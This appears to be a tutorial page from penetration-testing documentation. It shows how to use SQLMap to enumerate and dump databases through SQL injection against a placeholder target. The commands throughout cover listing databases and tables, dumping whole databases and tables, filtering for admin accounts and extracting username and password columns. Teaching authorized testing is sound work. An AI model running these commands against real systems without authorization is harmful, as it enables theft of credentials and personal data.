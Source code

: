 ```yaml
---
title: Data Extraction
description: Learn how to extract data from databases using SQLMap
---
```


# Data Extraction with SQLMap

SQLMap provides powerful capabilities for extracting data from vulnerable databases. This section covers various techniques for database enumeration and data extraction.

<Tabs defaultValue="enumeration" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="enumeration">Database Enumeration</TabsTrigger>
    <TabsTrigger value="tables">Table Extraction</TabsTrigger>
    <TabsTrigger value="dump">Data Dumping</TabsTrigger>
  </TabsList>
  <TabsContent value="enumeration">
    ## Database Enumeration
    
    Before extracting specific data, you need to gather information about the database structure:
    
    ### Identifying the Database Management System
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --banner
    ```
    
    This command retrieves the database banner, which typically includes version information.
    
    ### Listing Available Databases
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --dbs
    ```
    
    This command lists all databases accessible to the current user.
    
    ### Current Database Information
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --current-db
    ```
    
    This command identifies the database currently in use by the web application.
    
    <Note title="Pro Tip" type="success">
    Always start with enumeration to understand the database structure before attempting to extract specific data.
    </Note>
  </TabsContent>
  <TabsContent value="tables">
    ## Table Extraction
    
    Once you've identified the target database, you can extract information about its tables:
    
    ### Listing Tables in a Database
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D database_name --tables
    ```
    
    Replace `database_name` with the name of the database you want to explore.
    
    ### Listing Columns in a Table
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D database_name -T table_name --columns
    ```
    
    This command lists all columns in the specified table, which helps you identify which columns contain sensitive information.
    
    <Note title="Security Note" type="warning">
    Tables with names like "users", "accounts", "members", or "admin" often contain valuable information such as usernames, email addresses, and password hashes.
    </Note>
  </TabsContent>
  <TabsContent value="dump">
    ## Data Dumping
    
    After identifying the tables and columns of interest, you can extract the actual data:
    
    ### Dumping Specific Columns
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D database_name -T table_name -C "column1,column2" --dump
    ```
    
    This command extracts data from the specified columns.
    
    ### Dumping an Entire Table
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D database_name -T table_name --dump
    ```
    
    This command extracts all data from the specified table.
    
    ### Dumping an Entire Database
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D database_name --dump
    ```
    
    <Note title="Warning" type="danger">
    Dumping entire databases can generate a large amount of traffic and may trigger intrusion detection systems. Use this option with caution.
    </Note>
  </TabsContent>
</Tabs>

## Step-by-Step Data Extraction Process

<Stepper>
  <StepperItem title="Identify the Injection Point">
    First, confirm that the target is vulnerable to SQL injection:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --batch
    ```
    
    SQLMap will automatically test for vulnerabilities and report any findings.
  </StepperItem>
  <StepperItem title="Enumerate Database Information">
    Once you've confirmed a vulnerability, gather information about the database:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --banner --current-user --current-db
    ```
    
    This command retrieves the database banner, current user, and current database name.
  </StepperItem>
  <StepperItem title="List Available Databases">
    Identify all accessible databases:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --dbs
    ```
    
    Review the list and identify databases that might contain valuable information.
  </StepperItem>
  <StepperItem title="Explore Database Structure">
    For each database of interest, list its tables:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D target_db --tables
    ```
    
    Look for tables with names suggesting they contain user data or other sensitive information.
  </StepperItem>
  <StepperItem title="Extract Sensitive Data">
    Once you've identified tables of interest, extract their data:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D target_db -T users -C "username,email,password" --dump
    ```
    
    SQLMap will extract the specified columns and attempt to crack any password hashes it finds.
  </StepperItem>
</Stepper>

## Common Database Structures

Different web applications organize their data in various ways. Here are some common database structures you might encounter:

<div className="grid grid-cols-1 md:grid-cols-2 gap-4 mt-6">
  <div className="border rounded-md p-4">
    <h3 className="text-lg font-semibold">E-commerce Platform</h3>
    <FileSystem>
      <FileSystemRoot name="shop_db" />
      <FileSystemItem name="users" type="directory" level={1} />
      <FileSystemItem name="id" type="file" level={2} />
      <FileSystemItem name="username" type="file" level={2} />
      <FileSystemItem name="password" type="file" level={2} />
      <FileSystemItem name="email" type="file" level={2} />
      <FileSystemItem name="products" type="directory" level={1} />
      <FileSystemItem name="id" type="file" level={2} />
      <FileSystemItem name="name" type="file" level={2} />
      <FileSystemItem name="price" type="file" level={2} />
      <FileSystemItem name="description" type="file" level={2} />
      <FileSystemItem name="orders" type="directory" level={1} isLast={true} />
      <FileSystemItem name="id" type="file" level={2} />
      <FileSystemItem name="user_id" type="file" level={2} />
      <FileSystemItem name="product_id" type="file" level={2} />
      <FileSystemItem name="quantity" type="file" level={2} />
      <FileSystemItem name="total" type="file" level={2} isLast={true} />
    </FileSystem>
  </div>
  <div className="border rounded-md p-4">
    <h3 className="text-lg font-semibold">Content Management System</h3>
    <FileSystem>
      <FileSystemRoot name="cms_db" />
      <FileSystemItem name="users" type="directory" level={1} />
      <FileSystemItem name="id" type="file" level={2} />
      <FileSystemItem name="username" type="file" level={2} />
      <FileSystemItem name="password" type="file" level={2} />
      <FileSystemItem name="email" type="file" level={2} />
      <FileSystemItem name="role" type="file" level={2} isLast={true} />
      <FileSystemItem name="posts" type="directory" level={1} />
      <FileSystemItem name="id" type="file" level={2} />
      <FileSystemItem name="title" type="file" level={2} />
      <FileSystemItem name="content" type="file" level={2} />
      <FileSystemItem name="author_id" type="file" level={2} />
      <FileSystemItem name="date" type="file" level={2} isLast={true} />
      <FileSystemItem name="settings" type="directory" level={1} isLast={true} />
      <FileSystemItem name="site_name" type="file" level={2} />
      <FileSystemItem name="theme" type="file" level={2} />
      <FileSystemItem name="api_keys" type="file" level={2} isLast={true} />
    </FileSystem>
  </div>
</div>

<Note title="Ethical Reminder" type="note">
Remember that unauthorized data extraction is illegal. Always obtain proper authorization before performing security testing on any system.
</Note>

## Advanced Data Extraction Techniques

For more complex scenarios, SQLMap offers advanced options:

### Conditional Data Extraction

```bash
sqlmap -u "http://target.com/vuln.php?id=1" -D database_name -T users --dump --where "admin=1"
```

This command extracts only records where the "admin" column has a value of 1, which is useful for targeting administrator accounts.

### Custom SQL Queries

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --sql-query "SELECT concat(username,':',password) FROM users WHERE admin=1"
```

This command executes a custom SQL query, allowing for more complex data extraction scenarios.

<Note title="Performance Tip" type="success">
When extracting large amounts of data, use the `--threads` parameter to speed up the process:

```bash
sqlmap -u "http://target.com/vuln.php?id=1" -D database_name -T large_table --dump --threads=10
```

This runs multiple threads in parallel, significantly reducing extraction time.
</Note>
